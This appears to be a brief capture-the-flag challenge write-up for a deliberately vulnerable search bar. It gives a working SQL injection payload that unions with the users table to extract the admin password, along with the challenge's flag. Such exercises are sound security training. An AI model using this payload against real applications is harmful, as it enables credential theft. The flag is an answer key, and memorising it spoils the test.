 # Author
- John Cunniff

# Internal Description
- A simple sqli where you get a search bar that spits back at you whatever valid sql you give it. All they have to do is break out of the server's sql and union with the user table.

# Solution
- put this into the search bar: ' union all select password from users where username = 'admin'; -- 

# Flag
- flag{W45_7h47_4n_4c7u4l_VlUn_0NC3}

